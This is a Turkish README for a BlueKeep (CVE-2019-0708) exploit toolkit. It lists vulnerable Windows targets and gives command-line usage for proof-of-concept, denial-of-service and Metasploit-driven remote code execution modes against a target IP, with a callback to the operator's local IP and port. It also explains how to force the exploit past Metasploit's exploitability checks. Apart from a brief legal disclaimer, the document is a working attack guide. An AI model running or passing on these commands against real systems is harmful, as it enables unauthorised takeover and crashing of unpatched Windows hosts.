


# BlueKeep (CVE-2019-0708) Exploit Toolkit

Bu toolkit, BlueKeep (CVE-2019-0708) güvenlik açığından etkilenen Windows sistemlerine yönelik çeşitli sömürü ve test araçları içerir.


## İçindekiler

- [Genel Bilgi](#genel-bilgi)
- [Desteklenen Sistemler](#desteklenen-sistemler)
- [Kurulum](#kurulum)
- [Kullanım](#kullanım)
  - [Proof of Concept (PoC)](#proof-of-concept-poc)
  - [Denial of Service (DoS)](#denial-of-service-dos)
  - [Metasploit ile Sömürü](#metasploit-ile-sömürü)
- [Sorun Giderme](#sorun-giderme)
- [Ek Araçlar](#ek-araçlar)
- [Güvenlik Uyarısı](#güvenlik-uyarısı)

## Genel Bilgi

BlueKeep veya CVE-2019-0708, aşağıdaki Windows sistemlerini etkileyen bir RCE (Remote Code Execution) güvenlik açığıdır:

- Windows 2003
- Windows XP
- Windows Vista
- Windows 7
- Windows Server 2008
- Windows Server 2008 R2

Bu güvenlik açığı, kullanıcı doğrulama gerektirmeden (pre-authentication) uzaktan kod çalıştırmaya imkan verir ve NT Authority\system kullanıcı bağlamında çalışabilir.

## Desteklenen Sistemler

| Hedef ID | İşletim Sistemi | Notlar |
|----------|-----------------|--------|
| 0 | Otomatik hedefleme | Her durumda doğru çalışmayabilir |
| 1 | Windows 7 SP1 (6.1.7601 x64) | Kurumsal ortamlarda yaygın |
| 2 | Windows 7 SP0 (6.1.7600 x64) | **TAVSİYE EDİLEN** - Test için en güvenilir |
| 3 | Windows Server 2008 R2 SP1 (6.1.7601 x64) | fDisableCam=0 ayarı gerektirir |
| 4 | Windows Server 2008 R2 SP0 (6.1.7600 x64) | fDisableCam=0 ayarı gerektirir |
| 5 | Windows Server 2008 SP1 (6.0.6001 x64) | fDisableCam=0 ayarı gerektirir |

## Kurulum

### Gereksinimler
```bash
sudo apt install python3 python3-dev python3-pip openssl libssl-dev git
```

### Bağımlılıkları Yükleme
```bash
pip3 install -r requirements_fixed.txt
```

Ya da script ile otomatik yükleme:
```bash
python3 bluekeep_runner.py -i HEDEF_IP
```

## Kullanım

### Proof of Concept (PoC)

PoC modunu çalıştırmak için:
```bash
python3 bluekeep_runner.py -i HEDEF_IP -p 3389 -m poc -v
```

Local runner ile çalıştırmak için (bağımlılıkları kurmadan):
```bash
python3 local_bluekeep_runner.py -i HEDEF_IP -p 3389 -m poc -v
```

### Denial of Service (DoS)

DoS (servis dışı bırakma) modunu çalıştırmak için:
```bash
python3 bluekeep_runner.py -i HEDEF_IP -p 3389 -m dos -a 64 -t 3 -w 2
```

Parametreler:
- `-a`: Hedef mimarisi (32 veya 64 bit)
- `-t`: Saldırı deneme sayısı
- `-w`: Denemeler arasındaki bekleme süresi (saniye)

### Metasploit ile Sömürü

#### Automatic Runner
```bash
python3 metasploit_bluekeep.py -i HEDEF_IP -l YEREL_IP -t 2
```

Parametreler:
- `-i`: Hedef IP adresi
- `-l`: Yerel IP adresi (varsayılan: otomatik tespit)
- `-t`: Hedef ID (varsayılan: 2 - Windows 7 SP0)
- `-p`: Hedef port (varsayılan: 3389)
- `-o`: Yerel bağlantı port (varsayılan: 4444)
- `-f`: Otomatik kontrol atlamayı zorla (varsayılan: Evet)
- `-v`: Ayrıntılı çıktı
- `-d`: Hata ayıklama modu

#### Doğrudan Çalıştırma (Force Mode)
```bash
python3 force_bluekeep.py -i HEDEF_IP -l YEREL_IP -t 2
```

veya

```bash
python3 force_exploit.py -i HEDEF_IP -l YEREL_IP -t 2
```

#### Manuel Metasploit Komutları

Manuel komut oluşturmak için:
```bash
python3 bluekeep_direct.py -i HEDEF_IP
```

## Sorun Giderme

### Hedef kontrolü

Hedefin erişilebilir olup olmadığını kontrol edin:
```bash
python3 check_target.py -i HEDEF_IP -p 3389
```

### Metasploit ile ilgili sorunlar

1. Hedef tespit hatası alırsanız:
   ```
   Exploit aborted due to failure: unknown: Cannot reliably check exploitability
   ```
   Çözüm: Force modunu kullanın
   ```
   set ForceExploit true
   set AutoCheck false
   ```

2. Bad-config hatası alırsanız:
   ```
   Exploit aborted due to failure: bad-config: Set the most appropriate target manually
   ```
   Çözüm: Hedef ID değerini 2 olarak ayarlayın (Windows 7 SP0)
   ```
   set TARGET 2
   ```

## Ek Araçlar

### Local Test Environment
```bash
python3 rdp_listener.py -p 8389 -v
```

ve başka bir terminal penceresinde:
```bash
python3 self_test.py -p 8389 -m poc -v
```

### Hedef Tespiti için
```bash
python3 bluekeep_direct.py -i HEDEF_IP -p 3389
```

## Güvenlik Uyarısı

Bu araçlar, sadece yasal penetrasyon testleri ve güvenlik araştırmaları için kullanılmalıdır. İzinsiz sistemlere erişmek yasadışıdır. Bu araçların kötü amaçlı kullanımından doğacak sonuçlardan kullanıcı sorumludur.

---

Developed based on research by [Ekultek](https://github.com/Ekultek) and [NullArray](https://github.com/NullArray)
Enhanced with Metasploit integration and additional tools.
